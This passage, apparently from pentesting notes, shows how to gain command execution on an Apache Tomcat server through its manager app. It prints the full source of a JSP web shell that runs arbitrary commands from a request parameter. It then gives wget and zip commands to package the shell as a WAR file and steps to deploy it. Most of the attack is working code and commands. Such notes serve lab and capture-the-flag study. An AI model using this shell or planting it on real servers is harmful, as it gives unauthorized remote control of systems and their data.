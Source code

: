 * The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility
* A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

```shell-session
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```

```shell-session
zip -r backup.war cmd.jsp 
```

* Click on `Browse` to select the .war file and then click on `Deploy`.

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>
